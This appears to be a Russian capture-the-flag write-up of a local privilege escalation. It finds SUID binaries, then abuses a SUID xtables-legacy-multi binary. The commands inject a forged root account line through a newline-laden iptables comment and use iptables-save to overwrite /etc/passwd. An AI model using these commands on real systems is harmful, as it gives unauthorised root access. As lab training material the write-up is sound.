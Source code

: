 ищем suid файлы с помощью find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
видим /usb/sbin/xtables-legacy-multi который позволяет использовать iptables от root из-за suid bit
создадим новое правило с комментарием в котором будет храниться зашифрованный пароль root и сохраним правило  ([Shielder - путь от  к локальному повышению привилегий](https://www.shielder.com/blog/2024/09/a-journey-from-sudo-iptables-to-local-privilege-escalation/))
```
/usr/sbin/xtables-legacy-multi iptables -A INPUT -i lo -j ACCEPT -m comment --comment $'\nroot:$y$j9T$z76mX<hash>wI3i4tmx.X6cpNEXVE7IWF.QCE0PAJxJ1L1f2:0:0:root:/root:/bin/bash\n'

/usr/sbin/xtables-legacy-multi iptables-save -f /etc/passwd

```
![](../../attachment/Pasted%20image%2020250620100333.png)

теперь можем зайти под пользователем su root и забрать флаг

